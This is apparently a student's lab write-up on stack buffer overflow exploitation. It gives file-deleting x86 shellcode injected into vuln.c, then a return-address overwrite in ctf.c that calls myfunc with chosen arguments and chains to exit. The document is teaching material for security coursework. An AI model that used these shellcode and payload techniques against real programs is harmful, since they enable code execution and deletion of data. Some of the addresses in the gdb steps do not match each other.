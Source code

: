 Name: Nguyen Thanh Tinh
ID: 22110077
# **Task 1:Inject code to delete file**
Run file asm and get the shellcode
`nasm -g -f elf file_del.asm`
`ld -m elf_i386 -o file_del file_del.o`
`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
![alt text](image-a.png)
-> We have the shell code:                  \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile
-> The \xdummyfile because it is not meaningful hexidecimal code.
At here, we have a stack frame:
![alt text](image-a13.png)
To achieve the goal of exploiting the buffer overflow vulnerability and execute the assembly code to delete the file "dummyfile," we need to inject the shellcode into the buffer. This involves placing the shellcode in the buffer area, treating it as data, and ensuring that when the function returns, it will jump to this location. At that point, the injected data will be treated as executable code.

Given that the buffer size is 64 bytes, we need to overflow the buffer with a total of 68 bytes (64 for the buffer and 4 bytes for the saved return address).

Since the shellcode itself is 36 bytes long, we need to pad it with 32 bytes of filler data and then overwrite the return address with the address of the buffer where our shellcode is stored. This gives us the structure:

- Shellcode (36 bytes)
- Padding (32 bytes)
- Return address (4 bytes)

Here, we will use the vuln.c program to trigger a buffer overflow

Connect to gdb
![alt text](image-a1.png)
Set a break point at 0x0804846b
![alt text](image-a2.png)
Run the program by using command:
`r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")`
![alt text](image-a3.png)


![alt text](image-a4.png)
We notice that the first 3 bytes correctly correspond to the shellcode. However, starting from the 4th byte, which is the newline character (0x0a), the `strcpy` function interprets this as a string terminator. As a result, the string copying process stops prematurely, causing the shellcode execution to be interrupted.

![alt text](image-a20.png)
Observing the ASCII table, we need to avoid the following characters:
- 0x00 because it marks the end of a string.
- 0x09 because it's the tab character and would split the argument.
- 0x0a because it's the newline character and would also terminate the string.
  
For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to prevent string termination and to identify the position of the return frame.
![alt text](image-a5.png)
r $(python -c "print('\xeb\x13\x89\xc0\xb0\x08\xb0\x02\xbb\x7a\x80\x04\x08\xcd\x80\x89\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")
![alt text](image-a7.png)
At this point, the program will likely report an error because it cannot find the address 0xffffffff.

We need to set `0x0c` to `0x00` at the address 0xffffd66b by using command: `set 0xffffd66b = 0x00`

we will replace the values of 0xffffffff with the address of the buffer, which is ffffd6f8, in the form of \xf8\xd6\xff\xff.

set *0xffffd73c = 0xffffd6f8

The result will be:
![alt text](image-a8.png)
The address of the value 0x0f is 0xffffd71b, calculated from the position 0x69 with an address of 0xffffd6c8. We will execute the command: set *0xffffd71b = 0x00
Now the value in the buffer is correct with the shellcode:

![alt text](image-a9.png)
However, the file is still not deleted. Let's go back to the ASM code and use "objdump":
![alt text](image-a10.png)
Based on the referencing in the ASM code, we can see that:
- The value of address 804807a is copied from EBX.
- The hexadecimal code of the string "dummyfile" is stored at address 804807a.

We need to set 0xffffd651 to point at that using command: set *0xffffd701 = 0x0804807a
![alt text](image-a11.png)
continue running the program
![alt text](image-a12.png)
-> Delete complete.
# Task 2: Conduct attack on ctf.c
In summary:

We need to locate the address of the `myfunc` function and overwrite the return address of the vulnerable function's stack frame with this address.

- `p = 0x04081211`
- `q = 0x44644262`

The structure of the payload will be as follows:

`(buf[100] + ebp(4) + ReturnA (overwritten by the myfunc address) + s + p + q)`

This translates to:

104 bytes of padding + The address of `myfunc` + 4 bytes of padding + Value `p` + Value `q`

Thus, the total payload becomes: `104 (padding) + the myfunc address + 4 (padding) + p (value) + q (value)`.
Run docker
![alt text](image-a15.png)
Debug ctf.c and create ctf.out file with the code: `gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](image-a16.png)
Get the address of the myfunc function by this command: `objdump -d ctf.out|grep myfunc`
![alt text](image-a14.png)
=> The address of myfunc: `0804851b`
connect in gdb and run this code: `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`
![alt text](image-a17.png)
It's stop running with the debug `0x61616161 in ??`
We need to set the address of the `exit` function in the return address of `myfunc`, so that after `myfunc` completes execution, the program will return to the `exit` function and continue running. This ensures that we can retrieve the values of the variables `p` and `q`.
Get the exit's address: ` objdump -d ctf.out|grep exit`
![alt text](image-a18.png)
-> The address of the exit: 080483e0

Connect gdb and run again by this command: `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`
![alt text](image-a19.png)
Done!

